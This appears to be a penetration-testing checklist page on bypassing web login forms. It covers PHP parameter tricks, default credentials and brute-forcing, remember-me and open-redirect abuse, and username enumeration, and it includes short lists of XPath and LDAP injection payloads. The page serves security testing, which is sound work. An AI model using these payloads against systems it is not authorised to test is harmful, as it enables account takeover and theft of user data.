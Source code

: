 # Login Bypass

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

* Check for **comments** inside the page \(scroll down and to the right?\)
* Check if you can **directly access the restricted pages**
* Check to **not send the parameters** \(do not send any or only 1\)
* Check the **PHP comparisons error:** _user\[\]=a&pwd=b_ , _user=a&pwd\[\]=b_ , _user\[\]=a&pwd\[\]=b_
* Check credentials:
  * [**Default credentials**](../../brute-force.md#default-credentials) _\*\*_of the technology/platform used
  * **Common combinations** \(root, admin, password, name of the tech, default user with one of these passwords\).
  * Create a dictionary using **Cewl**, **add** the **default** username and password \(if there is\) and try to brute-force it using all the words as **usernames and password**
  * **Brute-force** using a bigger **dictionary \(**[**Brute force**](../../brute-force.md#http-post-form)**\)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{% page-ref page="sql-login-bypass.md" %}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections.**](../nosql-injection.md#basic-authentication-bypass)\*\*\*\*

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)\*\*\*\*

```text
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)\*\*\*\*

```text
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Remember Me

If the page has "**Remember Me**" functionality check how is it implemented and see if you can abuse it to **takeover other accounts**.

### Redirects

Pages usually redirects users after login, check if you can alter that redirect to cause an [**Open Redirect**](../open-redirect.md). Maybe you can steal some information \(codes, cookies...\) if you redirect the user to your web.

## Other Checks

* Check if you can **enumerate usernames** abusing the login functionality.
* Check if **auto-complete** is active in the password/**sensitive** information **forms** **input:** `<input autocomplete="false"`

